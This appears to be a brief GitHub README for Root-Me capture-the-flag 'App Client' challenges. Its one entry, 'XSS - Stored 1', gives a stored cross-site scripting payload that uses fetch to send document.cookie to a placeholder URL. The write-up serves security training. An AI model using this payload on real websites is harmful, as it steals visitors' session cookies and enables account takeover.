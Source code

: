 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>fetch("URL?c="+document.cookie)</script>
`
